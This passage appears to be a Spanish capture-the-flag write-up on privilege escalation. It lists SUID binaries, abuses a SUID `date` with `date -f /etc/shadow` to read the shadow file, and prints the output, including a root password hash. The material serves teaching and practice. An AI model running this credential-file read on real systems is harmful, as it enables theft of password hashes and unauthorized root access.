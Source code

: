 Info:

```
1546    108 ---Sr-xr-x   1 root     root       109408 Feb 28  2019 /usr/bin/date
    10735     24 -rwsr-xr-x   1 root     root        23288 Jan 15  2019 /usr/bin/pkexec
       56     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
       52     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
       53     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
     3910     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
     3436     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
    10841     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
       55     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
     3908     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
     3583     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
    10852    152 -rwsr-xr-x   1 root     root       154352 Mar 21  2019 /usr/bin/ntfs-3g
    17819     56 -rwsr-xr-x   1 root     root        55400 Mar  6  2019 /usr/bin/bwrap
    58037    156 -rwsr-xr-x   1 root     root       157192 Jan 20  2021 /usr/bin/sudo
   407660     16 -rwsr-sr-x   1 root     root        14608 Dec  1  2020 /usr/lib/xorg/Xorg.wrap
    13568    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   150325     20 -rwsr-xr-x   1 root     root        18424 Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
   135600     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   138948     20 -rwsr-xr-x   1 root     root        18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   138929     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    57715    380 -rwsr-xr--   1 root     dip          386792 Feb 20  2020 /usr/sbin/pppd
```

Veremos que podemos ejecutar `date` como `root` pero solo nos sirve para leer archivos, por lo que haremos lo siguiente...

```shell
date -f /etc/shadow
```

Info:

```
date: invalid date 'root:$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/:18721:0:99999:7:::'
date: invalid date 'daemon:*:18714:0:99999:7:::'
date: invalid date 'bin:*:18714:0:99999:7:::'
date: invalid date 'sys:*:18714:0:99999:7:::'
date: invalid date 'sync:*:18714:0:99999:7:::'
date: invalid date 'games:*:18714:0:99999:7:::'
date: invalid date 'man:*:18714:0:99999:7:::'
date: invalid date 'lp:*:18714:0:99999:7:::'
date: invalid date 'mail:*:18714:0:99999:7:::'
date: invalid date 'news:*:18714:0:99999:7:::'
date: invalid date 'uucp:*:18714:0:99999:7:::'
date: invalid date 'proxy:*:18714:0:99999:7:::'
date: invalid date 'www-data:*:18714:0:99999:7:::'
date: invalid date 'backup:*:18714:0:99999:7:::'
date: invalid date 'list:*:18714:0:99999:7:::'
date: invalid date 'irc:*:18714:0:99999:7:::'
date: invalid date 'gnats:*:18714:0:99999:7:::'
date: invalid date 'nobody:*:18714:0:99999:7:::'
date: invalid date '_apt:*:18714:0:99999:7:::'
date: invalid date 'systemd-timesync:*:18714:0:99999:7:::'
date: invalid date 'systemd-network:*:18714:0:99999:7:::'
date: invalid date 'systemd-resolve:*:18714:0:99999:7:::'
date: invalid date 'messagebus:*:18714:0:99999:7:::'
date: invalid date 'tss:*:18714:0:99999:7:::'
date: invalid date 'dnsmasq:*:18714:0:99999:7:::'
```
